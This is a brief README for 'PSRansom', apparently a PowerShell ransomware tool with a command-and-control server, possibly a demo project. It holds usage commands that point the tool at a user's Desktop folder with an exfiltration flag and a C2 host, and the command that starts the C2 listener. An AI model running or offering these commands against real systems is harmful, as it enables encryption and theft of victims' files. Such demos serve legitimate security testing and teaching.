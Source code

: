 # PSRansom
PSRansome - Powershell based Ransomeware with C2

On Target Machine:

.\PSRansom.ps1 -e C:\Users\bob\Desktop\ -s 192.168.200.2 -p 80 -x -Demo


On C2 (192.168.200.2):

.\C2Server.ps1 * 80


https://github.com/v3gard/FakeRansomware
